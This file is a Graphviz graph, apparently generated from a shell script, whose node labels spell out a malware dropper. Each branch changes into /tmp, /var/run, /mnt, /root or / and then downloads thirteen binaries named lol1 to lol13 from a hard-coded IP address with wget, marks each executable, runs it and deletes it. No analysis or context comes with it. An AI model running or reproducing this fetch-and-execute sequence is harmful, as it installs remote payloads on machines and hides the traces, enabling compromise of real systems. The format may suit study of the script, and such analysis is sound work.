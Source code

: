 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://188.166.97.67/lol1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x lol1 "];
12 -> 14 [label=";,"];
14 [label="./lol1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf lol1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://188.166.97.67/lol2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x lol2 "];
30 -> 32 [label=";,"];
32 [label="./lol2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf lol2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://188.166.97.67/lol3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x lol3 "];
48 -> 50 [label=";,"];
50 [label="./lol3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf lol3 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://188.166.97.67/lol4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x lol4 "];
66 -> 68 [label=";,"];
68 [label="./lol4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf lol4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://188.166.97.67/lol5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x lol5 "];
84 -> 86 [label=";,"];
86 [label="./lol5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf lol5 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://188.166.97.67/lol6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x lol6 "];
102 -> 104 [label=";,"];
104 [label="./lol6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf lol6 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://188.166.97.67/lol7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x lol7 "];
120 -> 122 [label=";,"];
122 [label="./lol7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf lol7 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://188.166.97.67/lol8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x lol8 "];
138 -> 140 [label=";,"];
140 [label="./lol8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf lol8 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://188.166.97.67/lol9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x lol9 "];
156 -> 158 [label=";,"];
158 [label="./lol9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf lol9 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://188.166.97.67/lol10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x lol10 "];
174 -> 176 [label=";,"];
176 [label="./lol10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf lol10 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://188.166.97.67/lol11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x lol11 "];
192 -> 194 [label=";,"];
194 [label="./lol11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf lol11 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://188.166.97.67/lol12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x lol12 "];
210 -> 212 [label=";,"];
212 [label="./lol12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf lol12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://188.166.97.67/lol13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x lol13 "];
228 -> 230 [label=";,"];
230 [label="./lol13 "];
230 -> 231 [label=";,"];
}
